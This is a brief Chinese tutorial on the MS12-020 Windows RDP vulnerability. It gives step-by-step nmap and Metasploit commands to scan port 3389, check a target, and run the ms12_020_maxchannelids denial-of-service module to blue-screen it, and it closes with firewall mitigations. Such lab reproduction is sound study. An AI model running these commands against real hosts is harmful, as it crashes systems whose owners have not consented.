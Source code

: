 # MS12-020
---

全称:Microsoft windows远程桌面协议RDP远程代码执行漏洞

概要:MS12-020是一个针对远程桌面(RDP)协议的漏洞，其最严重的情况可能会造成远程执行代码，而通常情况下会造成对方蓝屏。

攻击过程复现

1、Nmap扫描受害者计算机是否开启3389端口

nmap -p 3389 + IP

2、启动msfconsole， 查询漏洞利用模块

search ms12-020

3、加载漏洞检查模块，查询是目标系统是否存在相应漏洞

use auxiliary/scanner/rdp/ms12_020_check

4、查看配置选项

show options

5、设置目标主机

set rhosts + IP

6、发起攻击

run

从以上步骤，可判断目标系统是否存在MS12-020

漏洞，当确定存在相应漏洞后，继续执行以下命令，进行死亡蓝屏攻击。

1、加载蓝屏攻击模块

use auxiliary/dos/windows/rdp/ms12_020_maxchannelids

2、查询配置选项

show opinions

3、设置目标主机

set rhosts + IP地址

4、发起攻击

run

5、查看目标主机是否蓝屏

四、防范措施

1、开启防火墙或者关闭3389端口

2、若需要用，就对防火墙配置策略，允许哪些IP才可以访问你RDP协议
